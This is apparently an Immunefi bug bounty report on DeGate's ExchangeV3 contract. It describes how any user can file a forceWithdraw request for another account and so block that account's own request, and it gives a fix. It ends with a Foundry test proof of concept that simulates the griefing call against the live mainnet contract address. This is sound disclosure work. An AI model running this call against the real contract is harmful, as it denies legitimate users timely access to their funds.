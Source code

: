 
# A malicious user can DoS force withdraw request for any legitimate user

Submitted on Mon Nov 20 2023 16:59:01 GMT-0400 (Atlantic Standard Time) by @CanYeRest298751 for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #25892

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Bug Description
A malicious user can request a `forceWithdraw` request on behalf of another `accountID`. This is correctly handled by the prover, and the request will be invalidated when processed by the operator. However in the meantime, the user with the account `accountID` cannot request a forceWithdraw, since only one `forceWithdraw` can be requested at a time.

## Impact
A malicious user can prevent a legitimate one to request `forceWithdraw` for her funds. Thereby denying the access to funds if operator is also malicious.
This can be used to keep big accounts inside the platform, and is a big centralization risk 

## Risk Breakdown
Difficulty to Exploit: Easy
Weakness:
CVSS2 Score:

## Recommendation
Also include the `from` variable in the mapping to check if forceWithdraw has been requested, since `from` can be invalid at request time.

## References

        
## Proof of concept
import as a test in a forge project and run `forge test -vvvv`

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

interface IExchangeV3 {
    function forceWithdraw(
        address from,
        address tokenId,
        uint32 accountId
    ) external payable;
}

contract CounterTest is Test {
    IExchangeV3 public exchangeV3 =
        IExchangeV3(0x9C07A72177c5A05410cA338823e790876E79D73B);

    address usdc = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;

    address attacker = address(1);
    address legitimate_user = address(2);

    uint32 accountId = 1;

    function setUp() public {}

    function testForceWithdrawalDos() public {
        //This withdraw is bound to fail because accountId does not belong to address attacker
        vm.prank(attacker);
        exchangeV3.forceWithdraw{value: 1e18}(attacker, usdc, accountId);

        //This withdraw request can succeed, because this is the right value for from
        vm.prank(legitimate_user);
        exchangeV3.forceWithdraw{value: 1e18}(legitimate_user, usdc, accountId);
    }
}
```